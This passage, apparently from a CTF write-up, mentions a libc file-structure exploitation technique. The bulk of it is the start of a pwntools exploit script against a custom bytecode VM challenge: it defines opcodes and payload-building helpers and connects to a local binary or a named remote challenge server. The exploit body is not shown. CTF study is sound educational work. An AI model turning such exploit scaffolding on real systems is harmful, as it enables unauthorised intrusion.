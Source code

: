 A highly feasible target are the file structures in the LIBC.

This exploit method reduces the unreliability due to the variability of the stack and only requires us to have an almost identical libc/ld as that on the remote.

As for how it works, this [article](https://chovid99.github.io/posts/stack-the-flags-ctf-2022/) explains it really well, so I won't go through the entire explaination again.

```python
from pwn import *
import struct

context.terminal = ["tmux", "splitw", "-h"]

opcodes = {
    "NOOP"      : 0,
    "IADD"      : 1,   # int add
    "ISUB"      : 2,
    "IMUL"      : 3,
    "ILT"       : 4,   # int less than
    "IEQ"       : 5,   # int equal
    "BR"        : 6,   # branch
    "BRT"       : 7,   # branch if true
    "BRF"       : 8,   # branch if true
    "ICONST"    : 9,   # push constant integer
    "LOAD"      : 10,  # load from local context
    "GLOAD"     : 11,  # load from global memory
    "STORE"     : 12,  # store in local context
    "GSTORE"    : 13,  # store in global memory
    "PRINT"     : 14,  # print stack top
    "POP"       : 15,  # throw away top of stack
    "CALL"      : 16,  # call function at address with nargs,nlocals
    "RET"       : 17,  # return value from function
    "HALT"      : 18
}

leak = lambda : p32(opcodes["PRINT"])
jmp = lambda : p32(opcodes["BR"])
jmpt = lambda x: p32(opcodes["BRT"]) + p32(x)
push = lambda x: p32(opcodes["ICONST"]) + struct.pack("<i", x)
halt = lambda : p32(opcodes["HALT"])
gload = lambda x: p32(opcodes["GLOAD"]) + struct.pack("<i", x)
gstore = lambda x: p32(opcodes["GSTORE"]) + struct.pack("<i", x)
# load = lambda x: p32(opcodes["LOAD"]) + struct.pack("<i", x)     !! BAD OPCODE !!
store = lambda x: p32(opcodes["STORE"]) + struct.pack("<i", x)
sub = lambda : p32(opcodes["ISUB"])
add = lambda : p32(opcodes["IADD"])
pop = lambda : p32(opcodes["POP"])


if args.REMOTE:
    # p = remote("192.168.132.128", 31337)
    p = remote("127.0.0.1", 31337)
    # p = remote("pwnb.jonathanw.dev", 4005)
    STDERR_OFFSET = 0x23e5b0
    pause()
elif args.SOLVE:
    p = remote("pwnb.jonathanw.dev", 4005)
    STDERR_OFFSET = 0x23e5b0
else:
    p = process("./vuln")
    STDERR_OFFSET = 2360752

# p = remote("pwnb.jonathanw.dev", 4005)

```